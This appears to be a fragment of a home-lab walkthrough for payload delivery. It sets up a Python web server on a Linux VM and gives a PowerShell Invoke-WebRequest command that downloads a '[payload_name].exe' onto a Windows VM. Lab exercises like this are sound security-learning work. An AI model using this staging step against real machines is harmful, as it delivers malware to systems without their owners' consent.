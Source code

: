 ![](Screenshots/Pasted%20image%2020250116121055.png)
Exit this, then spin up a webserver using python:
![](Screenshots/Pasted%20image%2020250116121113.png)
Switch to the Windows VM, then launch an Administrative Powershell

Run this command:

`IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe`